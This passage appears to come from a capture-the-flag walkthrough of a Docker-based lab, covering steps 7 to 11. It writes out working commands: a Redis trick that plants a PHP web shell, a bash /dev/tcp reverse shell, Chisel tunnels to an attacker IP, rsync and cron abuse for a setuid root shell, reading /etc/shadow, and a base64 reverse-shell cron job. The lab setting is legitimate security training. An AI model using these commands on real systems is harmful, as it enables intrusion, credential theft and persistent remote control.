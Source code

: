 7. **Web Server Exploitation (Code Execution)**
   - **Technique**: Exploit shared web folder with Redis database to achieve code execution.
   - **Steps**:
     - Access `http://localhost:8001`, identify endpoints like `/getData` (returns hit counter) and `/incrementCounter`.
     - Discover Redis on 172.19.0.2:6379 (no authentication required) via port scan and Nmap: `nmap -sT -p 6379 -sC -sV localhost`.
     - Use Redis to write a PHP file to the shared web directory:
       - `FLUSHALL` to clear Redis.
       - `SET please_subscribe "<?php system(\$_REQUEST['cmd']); ?>"`.
       - `CONFIG SET dbfilename apsec.php`.
       - `CONFIG SET dir /var/www/html`.
       - `SAVE` to write the file.
     - Access `http://localhost:8001/apsec.php?cmd=whoami`, confirming code execution as `www-data`.
   - **Purpose**: Gain code execution on the web server container.

8. **Reverse Shell from Web Server**
   - **Technique**: Set up a local pivot to allow the web server to send a reverse shell to the attacker's machine.
   - **Steps**:
     - Set up Chisel server on attacker's machine: `./chisel server -p 8000`.
     - On Node-RED container, run: `./chisel client [ATTACKER-IP]:8000 9001:127.0.0.1:8005`.
     - On attacker's machine, listen: `nc -lvnp 8005`.
     - From Burp Suite, execute: `bash -c 'bash -i >& /dev/tcp/172.19.0.4/9001 0>&1'` via `apsec.php`.
     - Receive reverse shell as `www-data` on the web server container.
   - **Purpose**: Obtain a stable shell on the web server container.

9. **Privilege Escalation on Web Server via Rsync (Cron Job Abuse)**
   - **Technique**: Exploit a cron job running `rsync` with a wildcard to execute arbitrary commands.
   - **Steps**:
     - Identify `/backup/backup.sh` running every 3 minutes via `/etc/cron.d/backup`.
     - Exploit `rsync` wildcard vulnerability by creating a file named `--e sh please_subscribe.o.db` in `/var/www/html`.
     - Create `/bin/sh` copy with setuid: `cp /bin/sh /tmp/priv; chmod 4755 /tmp/priv`.
     - Transfer file via `rsync`: `rsync -av /tmp/please_subscribe.o.db rsync://backup:873/src/etc/cron.d/`.
     - Wait for cron job to execute, granting a setuid binary (`/tmp/priv`).
     - Run `/tmp/priv` to gain root on the web server container.
   - **Purpose**: Escalate privileges to root on the web server container.

10. **Accessing Backup Server**
    - **Technique**: Use `rsync` to access files on the backup server (172.20.0.2).
    - **Steps**:
      - From the root shell, use `rsync -av rsync://backup:873/src/etc/shadow` to retrieve files.
      - Attempt to access `root.txt`, but it's not present.
    - **Purpose**: Attempt to retrieve sensitive files from the backup server.

11. **Pivoting to Backup Server (Chained Tunnels)**
    - **Technique**: Set up chained Chisel tunnels to allow the backup server to connect back to the attacker's machine.
    - **Steps**:
      - On attacker's machine: `./chisel server -p 8000`.
      - On Node-RED container: `./chisel client [ATTACKER-IP]:8000 8010:127.0.0.1:8000`.
      - On web server container: `./chisel client 172.19.0.4:8010 8020:127.0.0.1:9005`.
      - Transfer a base64-encoded reverse shell script (`runme`) to the backup server via `rsync`: `rsync -avP /tmp/clean rsync://backup:873/src/etc/cron.d/clean`.
      - Script content: `echo "base64_encoded_shell" | base64 -d | bash`, connecting to 172.20.0.3:8020.
      - Receive root shell on the backup server via `nc -lvnp 9005`.
    - **Purpose**: Gain root access on the backup server.
